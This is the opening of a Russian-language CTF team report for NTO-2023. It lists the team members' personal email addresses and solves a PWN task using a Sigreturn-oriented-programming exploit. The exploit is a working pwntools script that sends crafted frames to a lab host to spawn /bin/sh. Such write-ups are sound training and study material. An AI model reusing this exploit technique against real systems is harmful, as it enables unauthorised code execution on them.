# Qualitas incident report НТО-2023
## Выполнили
Команда “Qualitas”:
Шлотов Степан, stepka123456789@yandex.ru
Ярослав Морозов, gorkov-00-00@mail.ru
Герасименко Яна, yanagerasimenko@bk.ru
Ильин Никита, mrthefall@yandex.ru
В ходе работы было проведено расследование инцидента и исправление уязвимости в веб-приложении

## Github
https://github.com/MrTheFall/nto-2023

## Содержание
[TOC]

# Таски

## PWN-10

Для эксплуатации выдан elf файл. У файла отсутвуют такие защиты как стэковая канарейка, RELRO, NX, так же бинарник not PIE .В связи что бинарный файл максимально лишен излинего кода(нету никаких полезных гаджетов) и не линкуется ни с какими библиотеками обычный роп невозможен. Но можно заметить, что syscall read возвращает количество прочитанных байтов. Это дает нам возможность для такой техники как SROP. Мы используем SROP 2 раза: первый раз для того чтобы записать строку /bin/bash на стэк, второй раз чтобы вызвать execve с нужными параметрами. Пример эксплойта ниже.
```python=
from pwn import *
context.arch = 'x86_64'
# p = gdb.debug('./micro', '''
# catch syscall execve
# c
# ''')
p = remote('10.10.19.10', 8888)
#p = process('./micro')
frame2 = SigreturnFrame()
frame2.rax = 0x3b  # syscall number for execve
frame2.rdi = 0x402000 + 128  # pointer to /bin/sh
frame2.rsi = 0x0  # NULL
frame2.rdx = 0x0  # NULL
frame2.rip = 0x40102D  # syscall;ret
frame2.rsp = 0x402000 + 128 + 32
frame2.rbp = 0x402000 + 128

frame = SigreturnFrame()
frame.rax = 0x0  # syscall number for read
frame.rdi = 0x0  # stdin
frame.rsi = 0x402000 + 128  # NULL
frame.rdx = len(b'/bin/sh' + 17 * b'R' + p64(0x40101C) + p64(0x40101C)+ p64(0x40102d) + bytes(frame2) + p64(0x40102d))  # NULL
frame.rip = 0x40102D  # syscall; ret
frame.rsp = 0x402000 + 128 + 32
frame.rbp = 0x402000 + 128


p.send(b'A' * 14 + b'/bin/sh' + b'\x00' * 11 + p64(0x401018) + p64(0x40102D) + bytes(frame))
input()
p.send(b'A' * 15)
input()
```